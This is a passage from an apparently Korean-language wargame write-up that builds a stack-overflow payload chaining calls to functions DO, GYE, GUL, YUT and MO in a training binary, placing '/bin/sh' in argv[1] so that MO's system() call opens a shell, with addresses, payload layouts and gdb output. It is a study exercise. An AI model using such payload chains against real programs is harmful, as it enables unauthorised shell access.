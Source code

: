 최종적으로 MO함수를 호출하면 Finish!! 👌👌👌👌👌



&main(ebp) : 0xbffffae8

&DO : 0x80487ec

&GYE : 0x80487bc

&GUL : 0x804878c

&YUT : 0x804875c

&MO : 0x8048724

payload 시나리오 : `| dummy(44) | &DO | &GYE | &GUL | &YUT | &MO |`



```c
void MO(char *cmd)
{
    if(check != 4)
    	exit(0);

    printf("welcome to the MO!\n");

	// olleh!
	system(cmd);
}
```

마지막 MO 함수는 인자값으로 cmd의 주소값을 가져온다.

함수의 인자값은 해당 함수의 ebp+8부터 시작된다. *(ebp+4는 RET영역)*

라이브러리주소를 참조 못하므로, 다른 곳에서 "/bin/sh"를 가져와야 한다.

"/bin/sh"를 가져올 수 있는 경우의 수

1. 환경변수
   - 환경변수는 main함수 밑에 arg값 밑에 환경변수가 들어간다.
   - 해당 코드에서 buffer+48+100부분부터 0xbfffffff까지 0으로 초기화 되므로 환경변수도 초기화 된다.
2. system함수 내부(라이브러리)
   - system함수는 라이브러리에 존재하는데 라이브러리는 '0x40'으로 시작된다. 이는 필러링 되고 있다.
3. main의 argv[1]
   - argv[1] 내부에 "/bin/sh"을 입력하고 해당 주소를 넣어줄 수 있다.
4. main의 argv[2]
   - argv[2] 도 buffer+48+100 부분만 넘지 않으면 가능 할 것 같다.

1번, 2번 방법을 불가능하므로, 3번 방법 argv[1]자체 내부에 "/bin/sh"를 넣고 해당 주소를 구해보자.

`|dummy(44)|&DO|&GYE|&GUL|&YUT|&MO|dummy(4)|\xbf\xbf\xbf\xbf|"/bin/sh"|`

```
(gdb) x/32x $ebp
0xbffffa7c:	0x00000000	0x90909090	0xbfbfbfbf	0x6e69622f
0xbffffa8c:	0x0068732f	0x08048808	0x00000002	0xbffffab4
0xbffffa9c:	0x0804839c	0x0804894c	0x4000ae60	0xbffffaac
```
